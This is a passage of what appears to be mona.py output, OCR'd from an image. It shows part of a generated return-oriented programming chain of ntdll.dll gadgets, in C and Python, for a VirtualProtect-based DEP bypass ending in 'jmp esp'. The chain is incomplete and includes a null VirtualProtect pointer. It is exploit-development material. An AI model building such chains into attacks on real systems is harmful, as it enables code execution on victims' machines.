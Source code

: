 	0x776fa30c, // POP EAX // RETN [ntdll.dll] ** REBASED ** ASLR

	0x00000000, // [-] Unable to find ptr to &VirtualProtect()

	0x77661052, // PUSHAD // RETN [ntdll.dll] ** REBASED ** ASLR

	0x776e72d9, // ptr to 'jmp esp' [ntdll.dll] ** REBASED ** ASLR

	};

	if(buf != NULL) {

	memcpy(buf, rop_gadgets, sizeof(rop_gadgets));

	};

	return sizeof(rop_gadgets);

	}

	// use the 'rop_chain' variable after this call, it's just an unsigned int[]

	CREATE_ROP_CHAIN(rop_chain, );

	// alternatively just allocate a large enough buffer and get the rop chain,
	i.e.:

	// unsigned int rop_chain[256];

	// int rop_chain_length = create_rop_chain(rop_chain, );

	*** [ Python ] ***

	def create_rop_chain():

	# rop chain generated with mona.py - www.corelan.be

	rop_gadgets = [

	0x776d94d5, # POP EBP # RETN [ntdll.dll] ** REBASED ** ASLR

	0x776d94d5, # skip 4 bytes [ntdll.dll] ** REBASED ** ASLR

	0x77695aca, # POP EBX # RETN [ntdll.dll] ** REBASED ** ASLR

	0x00000201, # 0x00000201-> ebx

	0x776a6b7b, # POP EDX # RETN [ntdll.dll] ** REBASED ** ASLR

	0x00000040, # 0x00000040-> edx

	0x777173a2, # POP ECX # RETN [ntdll.dll] ** REBASED ** ASLR

	0x7773c513, # &Writable location [ntdll.dll] ** REBASED ** ASLR

	0x7769577a, # POP EDI # RETN [ntdll.dll] ** REBASED ** ASLR

	0x77665922, # RETN (ROP NOP) [ntdll.dll] ** REBASED ** ASLR

	0x776e0f9a, # POP ESI # RETN [ntdll.dll] ** REBASED ** ASLR

	0x77662065, # JMP [EAX] [ntdll.dll]
